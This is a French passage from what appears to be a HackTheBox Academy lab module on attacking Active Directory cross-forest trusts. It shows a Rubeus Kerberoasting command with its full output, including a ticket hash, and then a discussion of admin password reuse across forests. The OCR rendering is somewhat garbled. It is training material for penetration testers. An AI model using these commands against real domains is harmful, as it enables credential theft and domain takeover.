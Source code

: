 #### Exécution d'une attaque Kerberoasting avec Rubeus à l'aide de l'indicateur /domain

  Attaquer les approbations de domaine - Abus d'approbation entre forêts - à partir de Windows

```
PS C:\htb> .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2

[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target User            : mssqlsvc
[*] Target Domain          : FREIGHTLOGISTICS.LOCAL
[*] Searching path 'LDAP://ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL/DC=FREIGHTLOGISTICS,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=mssqlsvc)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1

[*] SamAccountName         : mssqlsvc
[*] DistinguishedName      : CN=mssqlsvc,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
[*] ServicePrincipalName   : MSSQLsvc/sql01.freightlogstics:1433
[*] PwdLastSet             : 3/24/2022 12:47:52 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*mssqlsvc$FREIGHTLOGISTICS.LOCAL$MSSQLsvc/sql01.freightlogstics:1433@FREIGHTLOGISTICS.LOCAL*$<SNIP>

```

Nous pourrions ensuite exécuter le hachage via Hashcat. Si cela échoue, nous avons rapidement étendu notre accès pour contrôler entièrement deux domaines en tirant parti d'une attaque assez standard et en abusant de la direction d'authentification et de la configuration de la confiance forestière bidirectionnelle.

* * * * *

Réutilisation du mot de passe administrateur et adhésion à un groupe
--------------------------------------------------------------------

De temps en temps, nous nous retrouverons dans une situation où il existe une fiducie forestière bidirectionnelle gérée par les administrateurs de la même entreprise. Si nous pouvons reprendre le domaine A et obtenir des mots de passe en texte clair ou des hachages NT pour le compte administrateur intégré (ou un compte qui fait partie du groupe Administrateurs d'entreprise ou Administrateurs de domaine dans le domaine A), et que le domaine B dispose d'un compte hautement privilégié avec le même nom, il vaut la peine de vérifier la réutilisation du mot de passe dans les deux forêts. J'ai parfois rencontré des problèmes où, par exemple, le domaine A avait un utilisateur nommé `adm_bob.smith`dans le groupe Administrateurs du domaine et le domaine B avait un utilisateur nommé `bsmith_admin`. Parfois, l'utilisateur utilisait le même mot de passe dans les deux domaines, et posséder le domaine A me donnait instantanément tous les droits d'administrateur sur le domaine B.


[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS C:\Users\administrator.INLANEFREIGHT\Documents> whoami
[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS C:\Users\administrator.INLANEFREIGHT\Documents> ipconfig /all